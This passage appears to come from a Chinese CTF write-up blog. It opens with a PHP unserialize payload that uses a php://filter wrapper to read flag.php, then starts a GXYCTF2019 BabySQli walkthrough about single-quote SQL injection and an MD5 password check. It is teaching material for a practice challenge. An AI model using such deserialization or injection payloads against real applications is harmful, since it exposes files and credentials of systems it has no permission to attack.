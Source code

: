 ```
<?php
class FileHandler {
    protected $op = 2;
    protected $filename = 'php://filter/read=convert.base64-encode/resource=flag.php';
    protected $content;
}
echo serialize(new FileHandler);
?> 
```

# [GXYCTF2019]BabySQli

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-VEDgfBix-1619353883656)(C:\Users\绿冰壶\AppData\Roaming\Typora\typora-user-images\image-20210412193955199.png)]

打开题目，是一个登录界面，看来是登录型sql注入。然后一顿操作但它一直骂我hack

#### 不讲武德

唉只能开源码看看了， 发现一个search.php

戳进去

。。。啥也没有

再开源码

发现一串很奇异的字符串

原来是base32

解密

哇还套了一层base64 解密

```
select * from user where username = '$name' 
```

行了，知道是单引号闭合了

然后咋办呢

看到题目主页有个GitHub链接 戳进去，找到了search.php的源码

```
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password); 
```

这里发现password是md5 加密的 要注意

```
 if($arr[1] == "admin"){
            if(md5($password) == $arr[2]){
                echo $flag;
            }
            else{
                die("wrong pass!");
            }
        }
        else{
            die("wrong user!"); 
```
